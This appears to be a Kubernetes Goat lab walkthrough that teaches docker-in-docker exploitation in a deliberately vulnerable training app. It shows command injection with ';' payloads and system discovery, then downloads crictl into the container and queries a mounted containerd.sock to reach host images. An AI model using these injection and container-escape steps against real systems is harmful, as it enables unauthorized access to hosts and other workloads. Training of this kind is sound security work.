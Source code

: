 ```yaml
---
title: ⎈ DIND (docker-in-docker) exploitation
sidebar_label: Welcome
sidebar_position: 2
description: Learn how to exploit Docker IN Docker socket in containers - Kubernetes Goat Scenario 🚀
slug: docker-in-docker-exploitation-in-kubernetes-containers/welcome
---
```


# ⎈ DIND (docker-in-docker) exploitation

## 🙌 Overview

In this scenario, we will be focusing on the common and standard ways how to build systems and pipelines that leverage container sockets to create, build and run containers from the underlying container runtime. This has been exploited since the early days of the container ecosystem and even today we see these misconfigurations/use cases in the real world. 

![Scenario 2](../images/scenario-2.png)

By the end of the scenario, we will understand and learn the following

1. You will learn to test and exploit the container UNIX socket misconfigurations
2. Able to exploit container and escape out of the docker container
3. Learn common misconfigurations in pipelines and CI/CD build systems

### ⚡️ The story

Most of the CI/CD and pipeline systems use the underlying host container runtime to build containers for you within the pipeline by using something called DIND (docker-in-docker) with a UNIX socket. Here in this scenario, we try to exploit this misconfiguration and gain access to the host system of the worker node by escaping out of the docker container.

:::info

- To get started with the scenario, navigate to [http://127.0.0.1:1231](http://127.0.0.1:1231)

:::

![Scenario 2 welcome](../images/sc-2-1.png)

### 🎯 Goal

The goal of this scenario is to escape out of the running docker container to the host system where the container is running and able to access and perform actions on other container running on the same node.

:::tip

If you are able to obtain container images in the host system then you have completed this scenario. But definitely, you can advance beyond this exploitation as well by performing post-exploitation.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Do you know how to run multiple commands in Linux? </b></summary>
  <div>
    <div>The application running here has command injection vulnerability. You can exploit this by using the <b>;</b> delimiter when passing the input 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Able to run system commands, not sure how to access containers? </b></summary>
  <div>
    <div>Identify the mounted UNIX socket volume, and use the crictl binary to communicate with that with <b>-r</b> flag 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

- By looking at the application functionality and dabbling with the input and output, we can see it has standard command injection vulnerability. Assuming it's running in a Linux container we can use the `;` delimiter to run/pass other commands

```bash
127.0.0.1; id
```

![Scenario 2 Command Injection](../images/sc-2-2.png)

- As we can see it returns the response for the `id` command, now we can analyze the system and see what potential information we can obtain

- It contains `containerd.sock` mounted into the file system as it's not available commonly in standard systems

```bash
; mount
```

![Scenario 2 mount](../images/sc-2-3.png)

- Wow! we can see the `/custom/containerd/containerd.sock` mounted in the file system and assuming it's mounted from the host system we need to talk to it for communicating with the UNIX socket

:::tip

We can use multiple methods for communicating with the `containerd.sock` UNIX socket. Some of them include [crictl binary](https://github.com/kubernetes-sigs/cri-tools/blob/master/docs/crictl.md), or a simple `curl` program as well.  

:::

- Next we can download the `crictl` static binary from the internet [https://github.com/kubernetes-sigs/cri-tools/releases](https://github.com/kubernetes-sigs/cri-tools/releases). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

- We can examine the output to determine our system architecture and OS, then download the appropriate binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command

```bash
;wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.27.1/crictl-v1.27.1-linux-amd64.tar.gz -O /tmp/crictl-v1.27.1.tar.gz
```

- We can extract the binary from the `crictl-v1.27.1.tgz` file so that we can use that to talk to the UNIX socket

```bash
;tar -xvf /tmp/crictl-v1.27.1.tar.gz -C /tmp/
```

![Scenario 2 extract binary](../images/sc-2-4.png)

- Now we can access the host system by running the following crictl commands with passing `containerd.sock` UNIX socket

```bash
;/tmp/crictl -r unix:///custom/containerd/containerd.sock images
```

![Scenario 2 list host images](../images/sc-2-6.png)

- Hooray 🥳 , now we can see that it has a lot of container images in the host system. We can now use different crictl commands to gain more access and further exploitation

:::tip

You can do the analog steps with  `ctr` and interact with the containerd runtime. `crictl` shows you containers as visible in kubernetes. `ctr` shows also additional containers, such as kubernetes hidden pause containers.
:::